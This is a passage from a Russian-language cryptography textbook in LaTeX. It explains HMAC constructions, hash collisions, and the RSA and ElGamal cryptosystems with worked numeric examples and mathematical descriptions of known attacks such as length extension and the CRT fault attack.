    \item Если шифрование данных не применяется, отправитель $A$ для каждого пакета информации $m$ отсылает сообщение
        \[ m ~\|~ \MAC(K, m) .\]
    \item Если используется шифрование данных симметричной криптосистемой с помощью ключа $K_e$, то имитовставка с ключом $K_a$ может вычисляться как до, так и после шифрования:
        \[ E_{K_e}(m) ~\|~ \MAC(K_a, E_{K_e}(m)) ~~ \text{ или } ~~ E_{K_e}(m ~\|~ \MAC(K_a, m)). \]

\end{itemize}
Первый способ, используемый в IPsec\index{протокол!IPsec}, хорош тем, что для проверки целостности достаточно вычислить только имитовставку, тогда как во втором случае перед проверкой необходимо дополнительно расшифровать данные. С другой стороны, во втором способе, используемом в системе PGP\index{протокол!PGP}, защищённость имитовставки не зависит от потенциальной уязвимости алгоритма шифрования.

Вычисление имитовставки от пакета информации $m$ с использованием блочного шифра $E$ осуществляется в виде:
    \[ \MAC(K, m) = E_K(H(m)), \]
где $H$ -- криптографическая хэш-функция.

Имитовставка на основе хэш-функции обозначается $\HMAC$ (Hash-based MAC)\index{HMAC} и стандартно вычисляется в виде:
    \[ \HMAC(K, m) = H(K \| H(K \| m)). \]

Возможно также вычисление в виде:
    \[ \HMAC(K, m) = H(K \| m \| K). \]

В протоколе IPsec\index{протокол!IPsec} используется следующий способ вычисления кода аутентификации:
    \[ \HMAC(K, m) = H((K \oplus ~ \textrm{opad}) ~\|~ H((K \oplus ~ \textrm{ipad}) ~\|~ m)), \]
где $\textrm{opad}$ -- последовательность повторяющихся байтов
    \[ \text{\texttt{0x5C}}= [01011100]_2, \]
$\textrm{ipad}$ -- последовательность повторяющихся байтов
    \[ \text{\texttt{0x36}} = [00110110]_2, \]
которые инвертируют половину бит ключа. Считается, что использование различных значений ключа повышает криптостойкость.

В протоколе защищённой связи SSL/TLS\index{протокол!SSL/TLS}, используемом в интернете для инкапсуляции протокола HTTP\index{протокол!HTTP} в протокол SSL (HTTPS\index{протокол!HTTPS}), код $\HMAC$ определяется почти так же, как в IPsec. Отличие состоит в том, что вместо операции XOR для последовательностей $\textrm{ipad}$ и $\textrm{opad}$ осуществляется конкатенация:
    \[ \HMAC(K, m) = H((K ~\|~ \textrm{opad}) ~\|~ H((K ~\|~ \textrm{ipad}) ~\|~ m)). \]

Двойное хэширование\index{двойное хэширование} с ключом в
    \[ \HMAC(K, m) = H(K \| H(K \| m)) \]
применяется для защиты от атаки на расширение сообщений. Вычисление хэш-функции от сообщения $m$, состоящего из $n$ блоков $m_{1}, m_2 \dots m_n$, можно записать в виде:
\[\begin{array}{l}
	m \equiv m_1 \Vert m_2 \Vert \dots \Vert m_n, \\
	H_0 \equiv IV = \textrm{const}, \\
	H_i = f(H_{i-1}, m_i), i \in \{ 1, 2, \dots, n \},\\
	H(m) \equiv H_n,
\end{array}\]
где $f$ -- известная сжимающая функция.

Пусть имитовставка использует одинарное хэширование с ключом:
    \[ \MAC(K, m) = H(K \| m) = H (m_0 = K \| m_1 \| m_2 \| \dots \| m_n). \]
Тогда криптоаналитик, не зная секретного ключа, имеет возможность вычислить имитовставку для некоторого расширенного сообщения $m \| m_{n+1}$:
\[
    \MAC(K, m \| m_{n+1}) = \underbrace{H \left( K \| m_1 \| m_2 \| \dots \| m_n \right.}_{\MAC(K, m)} \left. \| m_{n+1} \right) =
\] \[
     = f(\MAC(K, m), m_{n+1}).
\]


\section{Коллизии в хэш-функциях}

\subsection{Вероятность коллизии}
\selectlanguage{russian}

Если $k$-битовая криптографическая хэш-функция имеет равномерное распределение выходных хэш-значений по всем сообщениям, то согласно парадоксу дней рождений среди
    \[ n_{1/2} \approx \sqrt{2 \ln 2} \cdot 2^{k/2} \]
случайных сообщений с вероятностью больше $0.5$ найдутся два сообщения с одинаковыми значениями хэш-функций, то есть произойдет коллизия.

Криптографические хэш-функции должны быть равномерными по выходу, насколько это можно проверить, чтобы быть устойчивыми к колллизиям. Следовательно, для нахождения коллизии нужно взять группу из примерно $2^{k/2}$ сообщений.

Например, для нахождения коллизии в 96-битовой хэш-функции, которая, в частности, используется в коде аутентификации сообщения $\MAC$ в протоколе IPsec (часть IPv6), потребуется группа из $2^{48}$ сообщений, 3072 TB памяти для хранения группы и потребуется времени на $2^{48}$ операций хэширования, что достижимо.

Если хэш-функция имеет неравномерное распределение, то размер группы с коллизией меньше, чем $n_{1/2}$. Если для поиска коллизии достаточно взять группу с размером, много меньшим $n_{1/2}$, то хэш-функция не является устойчивой к коллизиям.

Например, для 128-битовой функции MD5\index{коллизия}\index{MD5} Xiaoyun Wang и Hongbo Yu в 2004 г. нашли атаку для нахождения коллизии за $2^{39} \ll 2^{64}$ операций. Это означает, что MD5 взломана и более не может считаться криптографической хэш-функцией.


\subsection{Комбинации хэш-функций}
\selectlanguage{russian}

Для иллюстрации свойств устойчивости к коллизиям исследуем следующий пример комбинирования двух хэш-функций. Рассмотрим две хэш-функции $f$ и $g$. Известно, что одна из этих функций не противостоит коллизиям, но какая именно~-- неизвестно. Тогда имеют место следующие утверждения:
\begin{itemize}
    \item Функция $h(x) = f(g(x))$ не устойчива к коллизиям, если $g(x)$ имеет коллизии.
    \item Функция $h(x) = f(g(x)) ~\|~ g(f(x))$ не устойчива, например, если $g(x) = \textrm{const}$.
    \item Функция $h(x) = f(x) ~\|~ g(x)$ устойчива к коллизиям.
\end{itemize}



\chapter{Асимметричные криптосистемы}\label{chapter-public-key}
\selectlanguage{russian}

\emph{Асимметричной криптосистемой} или же \emph{криптосистемой с открытым ключом} (\langen{public-key cryptosystem, PKC}) называется криптографическое преобразование, использующее два ключа -- открытый и закрытый. Пара из \emph{закрытого}\index{ключ!закрытый} (\langen{private key, secret key, SK})\footnote{В контексте криптосистем с открытым ключом можно ещё встретить использование термина <<секретный ключ>>. Мы не рекомендуем использовать данный термин, чтобы не путать с секретным ключом\index{ключ!секретный}, используемым в симметричных криптосистемах.} и \emph{открытого}\index{ключ!открытый} (\langen{public key, PK}) ключей создаётся пользователем, который свой закрытый ключ держит в секрете, а открытый ключ делает общедоступным для всех пользователей. Криптографическое преобразование в одну сторону (шифрование) можно выполнить, зная только открытый ключ, а в другую (расшифрование) -- зная только закрытый ключ. Во многих криптосистемах из закрытого ключа теоретически можно вычислить открытый ключ, однако это является сложной вычислительной задачей.

Если прямое преобразование выполняется открытым ключом, а обратное -- закрытым, то криптосистема называется \emph{схемой шифрования с открытым ключом}. Все пользователи, зная открытый ключ получателя, могут зашифровать для него сообщение, которое может расшифровать только владелец закрытого ключа.

Если прямое преобразование выполняется закрытым ключом, а обратное -- открытым, то криптосистема называется \emph{схемой электронной подписи (ЭП)}. Владелец закрытого ключа может \emph{подписать} сообщение, а все пользователи, зная открытый ключ, могут проверить, что подпись была создана только владельцем закрытого ключа и никем другим.

Криптосистемы с открытым ключом снижают требования к каналам связи, необходимые для передачи данных. В симметричных криптосистемах перед началом связи (перед шифрованием сообщения и его передачей) требуется передать или согласовать секретный ключ шифрования по защищённому каналу связи. Злоумышленник не должен иметь возможность ни прослушать данный канал связи, ни подменить передаваемую информацию (ключ). Для надёжной работы криптосистем с открытым ключом необходимо, чтобы злоумышленник не имел возможности подменить открытый ключ легального пользователя. Другими словами, криптосистема с открытым ключом, в случае использования открытых и незащищённых каналов связи, устойчива к пассивному криптоаналитику\index{криптоаналитик!пассивный}, но всё ещё должна предпринимать меры по защите от активного криптоаналитика\index{криптоаналитик!активный}.

Для предотвращения атак <<человек посередине>> (\langen{man-in-the-middle attack})\index{атака!<<человек посередине>>} с активным криптоаналитиком\index{криптоаналитик!активный}, который бы подменял открытый ключ получателя во время его передачи будущему отправителю сообщений, используют \emph{сертификаты открытых ключей}\index{сертификат открытого ключа}. Сертификат представляет собой информацию о соответствии открытого ключа и его владельца, подписанную электронной подписью третьего лица. В корпоративных информационных системах организация может обойтись одним лицом, подписывающим сертификаты. В этом случае его называют \emph{доверенным центром сертификации} или \emph{удостоверяющим центром}. В глобальной сети Интернет для защиты распространения программного обеспечения (например, защиты от подделок в ПО) и проверок сертификатов в протоколах на базе SSL/TLS\index{протокол!SSL/TLS} используется иерархия удостоверяющих центров, рассмотренная в разделе~\ref{section-CAs}. При обмене личными сообщениями и при распространении программного обеспечения с открытым кодом вместо жёсткой иерархии может использоваться \emph{сеть доверия}\index{сеть доверия}. В сети доверия каждый участник может подписать сертификат любого другого участника. Предполагается, что подписывающий знает лично владельца сертификата и удостоверился в соответствии сертификата владельцу при личной встрече.

Криптосистемы с открытым ключом построены на основе односторонних (однонаправленных) функций с потайным входом. Под \emph{односторонней} функцией понимают \emph{вычислительную} невозможность вычисления её обращения: вычисление значения функции $y = f(x)$ при заданном аргументе $x$ является лёгкой задачей, вычисление аргумента $x$ при заданном значении функции $y$ -- трудной задачей.

Односторонняя функция $y = f(x,K)$ с \emph{потайным входом}\index{функция!с потайным входом} $K$ определяется как функция, которая легко вычисляется при заданном $x$, и аргумент $x$ которой можно легко вычислить из $y$, если известен <<секретный>> параметр $K$, и вычислить невозможно, если параметр $K$ неизвестен.

Примером подобной функции является возведение в степень по модулю составного числа $n$:
	\[ c = f \left( m \right) = m ^ e \mod n.\]

Для того, чтобы быстро вычислить обратную функцию
	\[ m = f^{-1} \left( c \right) = \sqrt[e]{c} \mod n, \]
её можно представить в виде
	\[ m = c^{d} \mod n,\]
где
	\[ d = e^{-1} \mod \varphi \left( n \right). \]

В последнем выражении $\varphi \left( n \right)$ -- это функция Эйлера\index{функция!Эйлера}. В качестве <<потайной дверцы>> или секрета можно рассматривать или непосредственно само число $d$, или значение $\varphi \left( n \right)$. Последнее можно быстро найти только в том случае, если известно разложение числа $n$ на простые сомножители. Именно эта функция с потайной дверцей лежит в основе криптосистемы RSA\index{криптосистема!RSA}.

Необходимые математические основы модульной арифметики, групп, полей и простых чисел приведены в приложении~\ref{chap:discrete-math}.

\section{Криптосистемы RSA}
\selectlanguage{russian}
\index{криптосистема!RSA}

\subsection[Шифрование]{Шифрование RSA}

В 1978 г. Рональд Рив\'{е}ст, Ади Шамир и Леонард Адлеман  (R. Rivest, A. Shamir, L. Adleman) предложили алгоритм, обладающий рядом интересных для криптографии свойств. На его основе была построена первая система шифрования с открытым ключом, получившая название по первым буквам фамилий авторов -- система RSA.

Рассмотрим принцип построения криптосистемы шифрования RSA с открытым ключом.

\begin{enumerate}
    \item \textbf{Создание пары из секретного и открытого ключей.}
        \begin{enumerate}
            \item Случайно выбрать большие простые различные числа $p,q$, для которых $\log_2 p \simeq \log_2 q > 512$ бит.
            \item Вычислить произведение $n = pq$.
            \item Вычислить функцию Эйлера $\varphi(n) = (p-1)(q-1)$.
            \item Выбрать случайное целое число $e \in [2, \varphi(n)-1]$ взаимно простое с $\varphi(n)$: $~ \gcd(e, \varphi(n)) = 1$. Свойство проверяют с помощью алгоритма Евклида.
            \item Вычислить число $d$, такое, что  $d e= 1 \mod \varphi(n)$. Для вычисления используется расширенный алгоритм Евклида.
            \item Секретный ключ -- $\SK$, открытый ключ -- $\PK$
                \[ \SK = (d), ~ \PK = (n, e). \]

        \end{enumerate}

Генерация модуля $n = pq$ RSA системы является трудной задачей. Действительно, количество нечетных целых длиной точно 500 бит равно $2^{(500-2)}$. Среди них имеется примерно
$(2^{500})/500 - (2^{499})/499 \approx (2^{500})/1000$ простых 500-разрядных чисел. Вероятность случайного выбора простого числа составляет примерно $1/250 $.
Поиск случайных больших простых чисел $p,q$ состоит в генерации случайного нечетного целого числа и проверке его по критериям простоты. Самый распространенный критерий -- вероятностный тест Миллера--Рабина\index{тест!Миллера-Рабина}. Все вероятностные тесты либо \emph{точно} определяют, что данное число составное, либо что оно \emph{возможно} простое. При $t$-кратной проверке тестом Миллера--Рабина со всеми положительными ответами <<возможно простое>> существует вероятность ошибки $P < \left( \frac{1}{4} \right)^t$, т.е. ненулевая вероятность того, что число окажется, на самом деле, составным. Существуют и многие другие детерминированные и вероятностные тесты на простоту числа.

Криптостойкость RSA системы определяется сложностью разложения на сомножители целого $n$-разрядного числа и отсутствием <<лишних>> делителей.

    \item \textbf{Шифрование на открытом ключе $\PK$.}
        \begin{enumerate}
            \item Сообщение представляют целым числом $m \in [1, n-1]$.
            \item Шифротекст вычисляется как
                \[ c = m^e \mod n. \]
                Шифротекст -- тоже целое число из диапазона $[1, n-1]$.
        \end{enumerate}
    \item \textbf{Расшифрование на секретном ключе $\SK$.}
        \begin{enumerate}
            \item Владелец секретного ключа вычисляет
                \[ m = c^d \mod n. \]
            \item Покажем верность расшифрования. Пусть
                \[ ed = 1 + a \varphi(n). \]
                Если $m$ и $n$ взаимно простые, то по теореме Эйлера (по модулю $n$):
                \[ c^d = m ^{ed} = m^1 m^{a\varphi(n)} = m \cdot 1^a = m \mod n. \]

                В общем случае $m$ и $n$ могут иметь общие делители, но расшифрование тоже оказывается верным. Пусть $m = 0 \mod p$. По китайской теореме об остатках:
                \[
                     m = c^d \mod n ~\Leftrightarrow~
                     \left\{ \begin{array}{l}
                        m = c^d \mod p, \\
                        m = c^d \mod q. \\
                     \end{array} \right..
                \]
                Подставляя $c=m^e$, получаем тождество
                \[ \left\{ \begin{array}{l}
                    m^{ed} = 0 = m \mod p, \\
                    m^{ed} = m  \left( m^{q-1} \right)^{a(p-1)} = m \cdot 1^{a(p-1)} = m \mod q. \\
                \end{array} \right. \]
                Следовательно, $m^{ed} = m \mod pq$.
        \end{enumerate}
\end{enumerate}


Что касается вычислительной сложности других операций, то применение алгоритма Евклида для проверки, является ли число $e$  взаимно простым с числами $p-1, q-1$, а также вычисление обратного элемента $d$, считается легкой задачей (задачей с квадратичной сложностью, не более).
Возведение числа в заданную степень $d$ выполняется с помощью последовательного \emph{возведения в квадрат и перемножения}. Пусть
    \[ d = d_0 + d_1 2^1 + d_2 2^2 + \ldots + d_{k-1} 2^{k-1} \]
двоичное представление с коэффициентами $d_{i} \in \{ 0, 1 \}$. Степень $c^d$ вычисляется рекуррентным образом:
  \[ c^d =((... (((c^ {d_{k-1}})^2  (c^{d_{k-2}}))^2)\dots(c^{d_2}))^2 (c^{d_1}))^2 (c^{d_0}).\]

%    \[ c^d = c^ {d_0} \cdot (c^2)^{d_1} \cdot (c^{2^2})^{d_2} \dots  (c^{2^{k-1}})^{d_{k-1}}, \]
Всего выполняется  $k-1$ операций возведения в квадрат и не более $k-1$ умножений, что считается легкой задачей.


\subsubsection{Пример схемы}

%\example
%Схема шифрования RSA.
\begin{enumerate}
    \item Генерирование параметров.
        \begin{enumerate}
            \item Выберем числа $p=13, q=11, n = 143$.
            \item Вычислим $\varphi(n) = (p-1)(q-1) = 12 \cdot 10 = 120$.
            \item Выберем $e=23: ~ \gcd(e, \varphi(n))=1, ~ e \in [2, 119]$.
            \item Найдем $d = e^{-1} \mod \varphi(n) = 23^{-1} \mod 120 = 47$.
            \item Открытый и секретные ключи:
                \[ \PK = (e:23, n:143), ~ \SK = (d:47). \]
        \end{enumerate}
    \item Шифрование.
        \begin{enumerate}
            \item Пусть сообщение $m = 22 \in [1, n-1]$.
            \item Вычислим шифротекст
                \[ c = m^e = 22^{23} = 55 \mod 143. \]
        \end{enumerate}
    \item Расшифрование.
        \begin{enumerate}
            \item Полученный шифротекст $c = 55$.
            \item Вычислим открытый текст
                \[ m = c^d = 55^{47} = 22 \mod 143. \]
        \end{enumerate}
\end{enumerate}

%Рассмотрим ее основные положения на примере криптосистемы с открытым ключом.
%Приведем общую схему алгоритма RSA.
%$C_i=M_{i}^{E_k}(mod N_j)$
%$N_j=P_{j}Q_{j}$
%$M_i=C_{i}^{D_k}(mod N_j)$
%$E_k\neq D_k$
%Вычислить $E_k$ из $D_k$  при длине блока сообщения  $L_{блока} > L_{дополнения}$ можно только с экспоненциальной сложностью. $E_k D_K=1(mod \varphi(N_j))$
%Данное сравнение не дает единственного решения. Решение данного сравнения и можно свести к следующему уравнению:
%$ax+by=1$
%$E_k D_k=k \varphi(N_j)+1$
%$1\leq E_k D_k <\varphi(N_j)$
%$\varphi(N_j)(-k)+ E_k D_k=1$
%Стандарт ISO X.509 определяет требования по реализации алгоритма RSA, в частности, требования к общесистемным параметрам и ключам, методы распространения сертификатов ключей и ключевых параметров, а также порядок ввода их в действие и многое другое.


\subsection[Электронная подпись]{Электронная подпись RSA}

Предположим, что пользователь $A$ сообщения не шифрует, но хочет посылать свои сообщения в виде открытых текстов с подписью. Для этого надо создать электронную подпись (ЭП). Это можно сделать, используя систему RSA. При этом должны быть выполнены следующие требования:
\begin{itemize}
    \item вычисление подписи от сообщения является вычислительно легкой задачей;
    \item фальсификация подписи при неизвестном секретном ключе -- вычислительно трудная задача;
    \item подпись должна быть проверяемой открытым ключом.
\end{itemize}

Создание параметров ЭП RSA производится так же, как и для схемы шифрования RSA. Пусть  $A$ имеет секретный ключ $\SK = (d)$, а получатель (проверяющий) $B$ -- открытый ключ $\PK = (e,n)$ пользователя $A$.

\begin{enumerate}
    \item $A$ вычисляет подпись сообщения $m \in [1,n-1]$ как
        \[ s = m^{d} \mod n \]
        на своем секретном ключе $\SK$.
    \item $A$ посылает $B$ сообщение в виде $(m, s)$, где $m$ -- открытый текст, $s$ -- подпись.
    \item $B$ принимает сообщение $(m, s)$, возводит $s$ в степень $e$ по модулю $n$ ($e, n$ -- часть открытого ключа). В результате вычислений $B$ получает открытый текст
        \[ \left( m^{d} \mod n \right)^{e} \mod n = m. \]
    \item Сравнивает полученное значение с первой частью сообщения. При полном совпадении подпись принимается.
\end{enumerate}
Недостаток этой системы создания ЭП состоит в том, что подпись $m^{d} \mod n$ имеет большую длину, равную длине открытого сообщения $m$.

Для уменьшения длины подписи применяется другой вариант процедуры: вместо сообщения $m$ отправитель подписывает $h(m)$, где $h(x)$ -- известная криптографическая хэш-функция. Модифицированная процедура состоит в следующем.

\begin{enumerate}
    \item $A$ посылает $B$ сообщение в виде $(m, s)$, где $m$ -- открытый текст,
        \[ s = h(m)^d \mod n \]
        подпись.
    \item $B$ принимает сообщение $(m, s)$, вычисляет хэш $h(m)$ и возводит подпись в степень
        \[ h_1 = s^e \mod n. \]
    \item $B$ сравнивает значения $h(m)$ и $h_1$. При равенстве
        \[ h(m) = h_1 \]
        подпись считается подлинной, при неравенстве -- фальсифицированной.
\end{enumerate}


\subsubsection{Пример схемы}

\begin{enumerate}
    \item Генерирование параметров.
        \begin{enumerate}
            \item Выберем $p=13, q=17, n = 221$.
            \item Вычислим $\varphi(n) = (p-1)(q-1) = 12 \cdot 16 = 192$.
            \item Выберем $e=25: ~ \gcd(e = 25, \varphi(n) = 192) = 1, \\
                e \in [2, \varphi(n) - 1 = 191]$.
            \item Найдем $d = e^{-1} \mod \varphi(n) = 25^{-1} \mod 192 = 169$.
            \item Открытый и секретные ключи:
                \[ \PK = (e:25, n:221), ~ \SK = (d:169). \]
        \end{enumerate}
    \item Подписание.
        \begin{enumerate}
            \item Пусть хэш сообщения $h(m) = 12 \in [1, n-1]$.
            \item Вычислим ЭП
                \[ s = h^d = 12^{169} = 90 \mod 221. \]
        \end{enumerate}
    \item Проверка подписи.
        \begin{enumerate}
            \item Пусть хэш полученного сообщения $h(m) = 12$, полученная подпись $s = 90$.
            \item Выполним проверку
                \[ h_1 = s^e = 90^{25} = 12 \mod 221, ~~ h_1 = h, \]
                подпись верна.
        \end{enumerate}
\end{enumerate}


\subsection[Рандомизация шифрования и ЭП]{Рандомизация шифрования и \protect\\ подписания RSA}

\textbf{Семантически безопасной}\index{криптосистема!семантически-безопасная} называется криптосистема, для которой вычислительно невозможно извлечь любую информацию из шифротекстов, кроме длины шифротекста. Алгоритм RSA не является семантически безопасным. Одинаковые сообщения шифруются одинаково и, следовательно, применима атака на различение сообщений.

Кроме того, сообщения длиной менее $\frac{k}{3}$ бит, зашифрованные на малой экспоненте $e=3$, \emph{дешифруются} нелегальным пользователем извлечением обычного кубического корня.

В приложениях RSA используется только в сочетании с рандомизацией\index{рандомизация шифрования}. В стандарте PKCS\#1 RSA Laboratories описана схема рандомизации перед шифрованием OAEP-RSA (Optimal Asymmetric Encryption Padding). Примерная схема:
\begin{enumerate}
    \item Выбирается случайное $r$.
    \item Для открытого текста $m$ вычисляется
        \[ x = m \oplus H_1(r), ~ y = r \oplus H_2(x), \]
        где $H_1$ и $H_2$ -- криптографические хэш-функции.
    \item Сообщение $M = x \| y$ далее шифруется RSA.
\end{enumerate}
Восстановление $m$ из $M$ при расшифровании:
    \[ r = y \oplus H_2(x), ~ m = x \oplus H_1(r). \]

В модификации OAEP+ $x$ вычисляется как
    \[ x = (m \oplus H_1(r)) \| H_3(m \| r). \]

В описанной выше схеме ЭП под $m$ понимается хэш открытого текста, вместо шифрования выполняется подписание, вместо расшифрования -- проверка подписи.


\subsection{Выбор параметров и оптимизация}

\subsubsection{Выбор экспоненты $e$}

В случайно выбранной экспоненте $e$ c битовой длиной $k = \lceil \log_2 e \rceil$ половина бит в среднем равна 0, половина -- 1. При возведении в степень $m^e \mod n$ по методу <<возводи в квадрат и перемножай>> получится $k-1$ возведений в квадрат и, в среднем,
 $\frac{1}{2}(k-1)$ умножений.

Если выбрать $e$, содержащим малое число единиц в двоичной записи, то число умножений уменьшится до числа единиц в $e$.

Часто экспонента $e$ выбирается  \emph{малым} \emph{простым} числом и/или содержащим малое число единиц в битовой записи, для ускорения шифрования или проверки подписи, например:
\[
    \begin{array}{l}
        3 = [11]_2, \\
        17 = 2^4+1 = [10001]_2, \\
        257 = 2^8+1 = [100000001]_2, \\
        65537 = 2^{16}+1 = [10000000000000001]_2.
    \end{array}
\]

%Время шифрования или проверки подписи для малых экспонент становится $O(k^2)$ вместо $O(k^3)$, то есть в сотни раз быстрее для 1000-битовых чисел.


\subsubsection[Ускорение шифрования]{Ускорение шифрования по китайской \protect\\ теореме об остатках}

Возводя $m$ в степень $e$ отдельно по $\mod p$ и $\mod q$ и применяя китайскую теорему об остатках (Chinese remainder theorem, CRT), можно шифрование выполнить быстрее.

Однако ускорение шифрования в криптосистеме RSA через CRT может привести к уязвимостям в некоторых применениях, например, в смарт-картах.

\example
Пусть $c = m^e \mod n$ передается на расшифрование на смарт-карту, где вычисляется
\[ \begin{array}{c}
    m_p = c^d \mod p, \\
    m_q = c^d \mod q, \\
    m = m_p q (q^{-1} \mod p) + m_q p (p^{-1} \mod q) \mod n. \\
\end{array} \]
Криптоаналитик внешним воздействием может вызвать сбой во время вычисления $m_p$ (или $m_q$), в результате получится $m_p'$ и $m'$ вместо $m$. Зная $m_p'$ и $m'$ криптоаналитик находит разложение числа $n$ на множители $p,q$:
    \[ \gcd(m' - m, ~ n) = \gcd( (m_p' - m) q (q^{-1} \mod p), ~ pq) = q. \]
\exampleend


\subsubsection{Длина ключей}

В 2005 году было разложено 663-битовое число вида RSA. Время разложения в эквиваленте составило 75 лет вычислений одного ПК. Самые быстрые алгоритмы факторизации -- субэкспоненциальные\index{задача!факторизации}. Минимальная рекомендуемая длина модуля $n$ -- 1024 бит, но лучше использовать 2048 или 4096 бит.

В приложении показано, что битовая сложность (количество битовых операций) вычисления произвольной степени $a^b \mod n$ является кубической $O(k^3)$, а возведения в квадрат $a^2 \mod n$ и умножения $a b \mod n$ -- квадратичными $O(k^2)$, где $k$ -- битовая длина чисел $a,b,n$.

%Увеличение длины модуля $n$ в 2 раза увеличивает время возведения в степень в $2^3$ раз для большой экспоненты $e$, а для маленькой экспоненты -- в $2^2$ раза.


\section{Криптосистема Эль-Гамаля}\index{криптосистема!Эль-Гамаля|(}
\selectlanguage{russian}

Эта система шифрования с открытым ключом опубликована в 1985 году Эль-Гамалем (Taher El Gamal, \cite{ElGamal:1985}). Рассмотрим принципы ее построения.

Пусть имеется мультипликативная группа $\Z_p^* = \{1, 2, \dots, p-1\}$, где $p$ -- большое простое\index{число!простое} число, содержащее не менее 1024 двоичных разряда. В  группе $\Z_p^*$ существует $\varphi( \varphi( p ) ) = \varphi( p - 1 )$ элементов, которые порождают все элементы группы. Такие элементы называются генераторами.\footnote{Подробнее см. раздел~\ref{section-groups} в приложении.}

Выберем один из таких генераторов $g$ и целое число $x$ в интервале $1 \le x \le p-1$. Вычислим:
    \[ y = g^x \mod p. \]

Хотя элементы $x$ и $y$ группы $\Z_p^*$ задают друг друга однозначным образом, найти $y$ зная $x$ просто, а вот эффективного алгоритма для получения $x$ по $y$ неизвестно. Говорят, что задача вычисления дискретного логарифма
	\[ x = \log_g y \mod p \]
является вычислительно сложной задачей. На сложности вычисления дискретного логарифма для больших простых $p$ основывается криптосистема Эль-Гамаля.

\subsection{Шифрование}\index{шифр!Эль-Гамаля|(}

Процедура шифрования в криптосистеме Эль-Гамаля состоит из следующих операций.

\begin{enumerate}
    \item \textbf{Создание пары из закрытого и открытого ключей стороной $A$.}
        \begin{enumerate}
            \item $A$ выбирает простое\index{число!простое} случайное число $p$.
            \item Выбирает генератор $g$ (в программных реализациях алгоритма генератор часто выбирается малым числом, например $g = 2 \mod p$).
            \item Выбирает $x \in [2, p - 1]$ с помощью генератора случайных чисел.
            \item Вычисляет $y=g^{x}\mod p$.
            \item Создаёт закрытый и открытые ключи $\SK$ и $\PK$:
                \[ \SK = (p, g, x), ~ \PK = (p, g, y). \]
                Криптостойкость задаётся битовой длиной параметра $p$.
        \end{enumerate}
    \item \textbf{Шифрование на открытом ключе стороной $B$.}
        \begin{enumerate}
            \item Стороне $B$ известен открытый ключ $\text{PK} = (p, g, y)$ стороны $A$.
            \item Сообщение представляется числом $m \in [0, p-1]$.
            \item Выбирает случайное число $r \in [1, p-1]$ и вычисляет
                \[ \begin{array}{l}
                    a = g^r \mod p, \\
                    b = m \cdot y^r \mod p.
                \end{array} \]
            \item Создаёт шифрованное сообщение в виде
                \[ c = (a, b) \]
                и посылает стороне $A$.
        \end{enumerate}
    \item \textbf{Расшифрование на закрытом ключе стороной $A$.}

	Получив сообщение $(a, b)$ и владея закрытым ключом $\text{SK} = (p, g, x)$, $A$ вычисляет
                \[ m = \frac{b}{a^x} \mod p. \]
\end{enumerate}

Шифрование корректно, так как 
\[ \begin{array}{l}
    m' = \frac{b}{a^x} = \frac{m y^r}{g^{rx}} = m \mod p, \\
    m' \equiv m \mod p.
\end{array} \]

Чтобы криптоаналитику получить исходное сообщение $m$ из шифротекста $(a, b)$, зная только открытый ключ получателя $\text{PK} = (p, g, y)$, нужно вычислить значение $m = b \cdot y^{-r} \mod p$. Для этого криптоаналику нужно найти случайный параметр $r = \log_g a \mod p$, то есть вычислить дискретный логарифм. Такая задача является вычислительно сложной.

\example Создание ключей, шифрование и расшифрование в криптосистеме Эль-Гамаля.

\begin{enumerate}
    \item Генерирование параметров.
        \begin{enumerate}
            \item Выберем $p=41$.
            \item Группа $\Z_p^*$ циклическая, найдём генератор (примитивный элемент). Порядок группы
                \[ |\Z_p^*| = \varphi(p) = p-1 = 40. \]
                Делители 40: 2, 4, 5, 8, 10, 20. Элемент группы является примитивным, если все его степени, соответствующие делителям порядка группы, не сравнимы с 1. Из табл.~\ref{tab:elgamal-generator-search} видно, что число $g = 6$ является генератором всей группы.
                \begin{table}[!ht]
                    \centering
                    \caption{Поиск генератора в циклической группе $\Z_{41}^*$. Элемент 6 -- генератор\label{tab:elgamal-generator-search}}
                    \resizebox{\textwidth}{!}{ \begin{tabular}{|c|c|c|c|c|c|c|c|c|}
                        \hline
                        \multirow{2}{*}{Элемент} & \multicolumn{7}{|c|}{Степени} & \multirow{2}{*}{Порядок элемента} \\
                        \cline{2-8}
                                & 2   & 4   & 5   & 8  & 10 & 20 & 40 & \\
                        \hline
                        2       & 4   & 16  & -9  & 10 & -1 & 1  &    & 20 \\
                        3       & 9   & -1  & -3  & 1  &    &    &    & 8 \\
                        5       & -16 & 10  & 9   & 18 & -1 & 1  &    & 20 \\
                        6       & -5  & -16 & -14 & 10 & -9 & -1 & 1  & 40 \\
                        \hline
                    \end{tabular} }
                \end{table}
            \item Выберем случайное $x = 19 \in [1, p-1]$.
            \item Вычислим
                \[ \begin{array}{ll}
                    y & = g^x \mod p = \\
                    & = 6^{19} \mod 41 = \\
                    & = 6^{1 + 2 + 4 \cdot 0 + 8 \cdot 0 + 16} \mod 41 = \\
                    & = 6^1 \cdot 6^2 \cdot 6^{4 \cdot 0} \cdot 6^{8 \cdot 0} \cdot 6^{16} \mod 41 = \\
                    & = 6 \cdot (-5) \cdot (-16)^0 \cdot 10^0 \cdot 18 \mod 41 = \\
                    & = -7 \mod 41.
                \end{array} \]
            \item Открытый и закрытый ключи:
                \[ \PK = (p:41, g:6, y:-7), ~ \SK = (p:41, g:6, x:19). \]
        \end{enumerate}
    \item Шифрование.
        \begin{enumerate}
            \item Пусть сообщением является число $m = 3 \in \Z_p^*$.
            \item Выберем случайное число $r = 25 \in [1, p-1]$.
            \item Вычислим
                \[ \begin{array}{l}
                    a = g^r \mod p = 6^{25} \mod 41 = 14 \mod 41, \\
                    b = m y^r \mod p = 3 \cdot (-7)^{25} \mod 41 = -9 \mod 41.
                \end{array} \]
            \item Шифротекстом является пара чисел
                \[ c = (a:14, ~ b:-9). \]
        \end{enumerate}
    \item Расшифрование.
        \begin{enumerate}
            \item Пусть получен шифротекст
                \[ c = (a:14, ~ b:-9). \]
            \item Вычислим открытый текст как
                \[ \begin{array}{ll}
                    m & = \frac{b}{a^x} \mod p = \\
                    & = -9 \cdot (14^{-1})^{19} \mod 41 = \\
                    & = -9 \cdot 3^{19} \mod 41 = \\
                    & = -9 \cdot (-14) \mod 41 = \\
                    & = 3 \mod 41. \\
                \end{array} \]
        \end{enumerate}
\end{enumerate}

\exampleend
\index{шифр!Эль-Гамаля|)}

\subsection{Электронная подпись}\index{электронная подпись!Эль-Гамаля|(}

Криптосистема Эль-Гамаля, как и криптосистема RSA\index{криптосистема!RSA}, может быть использована для создания электронной подписи.

